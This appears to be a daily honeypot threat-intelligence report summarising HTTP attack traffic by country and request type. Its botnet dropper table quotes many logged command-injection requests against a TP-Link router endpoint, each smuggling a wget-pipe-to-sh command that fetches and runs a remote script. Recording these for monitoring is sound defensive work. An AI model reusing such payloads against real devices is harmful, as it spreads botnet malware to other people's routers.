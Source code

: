 ```yaml
---
title: "Report: 2025-08-28 "
date: 2025-08-28
desciption: "Report: 2025-08-28" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-28 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 17 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 7 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 514 requests were recorded during the day, originating from 17 different countries, with a peak of 155 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 14.33.215.88    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 218.151.4.81    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 220.124.188.145 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 209.164.247.118 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.152.52.167  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 211.228.142.81  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 12.147.183.155  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 118.43.117.160  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 175.208.20.113  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 41.143.241.32   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 125.139.96.146  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 222.105.81.80   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 98.124.37.179   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 59.1.211.226    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 122.199.74.31   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                   |
|----:|----------------------:|:------------------------------------------|
| 172 |                     1 | GET /modules/s?pa= HTTP/1.1               |
| 177 |                     1 | GET /ttt/s?pa= HTTP/1.1                   |
| 178 |                     1 | GET /topics/s?pa= HTTP/1.1                |
| 181 |                     1 | GET /HelpTheme/s?pa= HTTP/1.1             |
| 184 |                     1 | GET /ErrorHelp/s?pa= HTTP/1.1             |
| 185 |                     1 | GET /exchangetopicservices/s?pa= HTTP/1.1 |
| 186 |                     1 | GET /access/s?pa= HTTP/1.1                |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   155 | US                 |
|  1 |                   133 | BG                 |
|  2 |                    80 | GB                 |
|  3 |                    35 | DE                 |
|  4 |                    32 | NL                 |
|  5 |                    19 | SC                 |
|  6 |                    17 | KR                 |
|  7 |                     7 | CA                 |
|  8 |                     4 | JP                 |
|  9 |                     4 | HU                 |
| 10 |                     4 | SG                 |
| 11 |                     4 | FR                 |
| 12 |                     3 | BD                 |
| 13 |                     3 | BR                 |
| 14 |                     3 | CN                 |
| 15 |                     2 | RU                 |
| 16 |                     2 | ZA                 |
| 17 |                     1 | MC                 |
| 18 |                     1 | BE                 |
| 19 |                     1 | IN                 |
| 20 |                     1 | PT                 |
| 21 |                     1 | HK                 |
| 22 |                     1 | GE                 |
| 23 |                     1 | MA                 |
